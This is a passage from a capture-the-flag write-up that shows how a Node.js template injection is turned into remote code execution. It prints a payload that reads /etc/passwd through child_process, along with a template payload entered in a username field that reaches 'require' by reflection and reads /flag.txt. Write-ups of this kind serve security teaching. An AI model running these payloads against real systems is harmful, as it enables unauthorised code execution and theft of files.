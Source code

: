 > Since we are within the Node.js environment we can gain remote code execution by executing the following payload (executing **`cat /etc/passwd`** in this example).

```js
require('child_process').execSync('cat /etc/passwd')
```

There is however one move obstacle to overcome, the “require” function is not directly available in our newly created function. However, we are able to use reflection to access the same functionality via **`global.process.mainModule.constructor._load()`**

**Armed with above information, we can register the following account in the username field to get the flag:**
```js
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230320142354.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230320142405.png)

**Then login our previously created account:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230320142449.png)
